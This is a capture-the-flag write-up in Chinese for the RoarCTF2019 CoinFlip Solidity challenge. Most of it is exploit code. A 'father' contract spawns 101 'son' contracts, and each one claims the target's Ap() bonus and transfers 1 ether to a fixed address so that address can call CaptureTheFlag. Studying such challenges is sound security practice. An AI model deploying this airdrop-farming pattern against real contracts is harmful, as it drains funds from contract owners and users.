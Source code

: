 
## RoarCTF2019 CoinFlip

* `RoarCTF2019` 的 `CoinFlip` 题目
* 题目：见 `attachment` 目录

### Analysis

* `Deposit()` 可以增加 `balance[msg.sender]` ，但是需要发送 `msg.value > 500 ether` 才能满足要求，不现实
* **薅羊毛攻击**:
    * 部署第三方自合约，然后调用 `Ap()` 和 `Transfer()` 将钱转到固定地址
    * 固定地址调用 `CaptureTheFlag` 即可

```javascript
contract hack {
    address instance_address = 0xF60ADeF7812214eBC746309ccb590A5dBd70fc21;
    P_Bank target = P_Bank(instance_address);
    
    function hack1(string b64email) public {
        target.CaptureTheFlag(b64email);
    }
}

contract father {
    function createsons() {
        for (uint i=0;i<101;i++)
        {
            son ason = new son();
        }
    }
}

contract son {
    constructor() public {
        P_Bank tmp = P_Bank(0xF60ADeF7812214eBC746309ccb590A5dBd70fc21);
        tmp.Ap();
        tmp.Transfer(0x7ec9f720a8d59bc202490c690139f8c7cbad568d, 1 ether);
    }
}
```
